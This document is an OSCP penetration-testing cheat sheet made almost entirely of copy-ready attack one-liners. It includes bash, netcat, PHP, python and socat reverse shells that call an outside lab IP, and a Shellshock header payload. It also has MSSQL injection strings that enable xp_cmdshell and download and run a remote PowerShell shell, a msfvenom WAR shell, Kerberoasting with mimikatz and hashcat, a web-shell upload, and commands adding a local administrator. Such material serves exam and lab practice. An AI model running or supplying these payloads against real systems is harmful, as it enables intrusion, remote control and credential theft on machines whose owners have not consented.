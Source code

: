 ```yaml
---
title: OSCP Cheat Sheet
date: 2021-06-13 06:25:40
updated: 2021-06-14 12:25:40
tags:
- OSCP
- Penetration Test
categories: OSCP
---
```


# Pentest Cheatsheet

Bash reverse shell

```bash
bash -i >& /dev/tcp/192.168.19.35/8907 0>&1
```

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1"
```

Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" \
http://localhost:8080/cgi-bin/test.bin | tail
```

python PTY upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

MSSQL enable xp_cmdshell

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

MSSQL reverse shell with one-liner

```sql
exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')"
```

MSSQL enable xp_cmdshell and exec

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')";--
```

MSSQL check for stack query

```sql
'; WAITFOR DELAY '0:0:5'; --
```

nc reverse shell

```bash
nc -e /bin/bash 192.168.119.142 8907
```

PHP reverse shell with python

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");?>
```

PHP reverse shell with python with double quote escaped

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>
```

PHP reverse shell with bash -c

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/\"192.168.119.142\"/443 0>&1'");?>
```

PHP reverse shell with bash (won't work on /bin/sh -> /bin/dash)

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1");'
```

PHP reverse shell with bash -c with double quote escaped

```bash
php -r 'exec("/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1\"");'
```

socat TTY upgrade

```bash
socat file:`tty`,raw,echo=0 tcp-listen:8908
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.142:8908
```

curl multipart/form-data file upload example

```bash
curl -F files=@ciph3r.php http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

Powershell reverse shell

```powershell
powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')
```

Kerberoast

```powershell
# Get Users with SPNs
.\GetUserSPNs.sp1
# Get Service Tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"
# Extract Tickets
mimikatz # kerberos::list /export
# Crack Tickets with tgsrepcrack.py
./tgsrepcrack.py rockyou.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi
# Or Hashcat/JohnTheRipper(much faster)
./kirbi2john.py ../2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi >> ../kerberos.hash
.\hashcat.exe -m 13100 -a 0 F:\kerberos.hash F:\rockyou.txt
```

Powershell Invoke-WebRequest

```powershell
powershell -c Invoke-WebRequest http://192.168.119.142:12345/
```

Java War file reverse shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.142 LPORT=8907 -f war > cipher.war
```

Windows show hidden files

[How-to｜Show Hidden Files Using Command Lines in Windows 10/8/7](https://www.diskpart.com/articles/show-hidden-files-command-line-8523.html)

```powershell
dir /a:h /b /s
```

MSSQL get other table from other databse

```sql
SELECT other_database..syscolumns.name, TYPE_NAME(other_database..syscolumns.xtype),NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--
```

Windows create remote login user

```powershell
net user /add cipher cipher
net localgroup administrators cipher /add
```

Runas Administrator

```powershell
runas /user:administrator <command>
```

Openssl Generate passwd

```bash
openssl passwd -1 -salt cipher cipher
```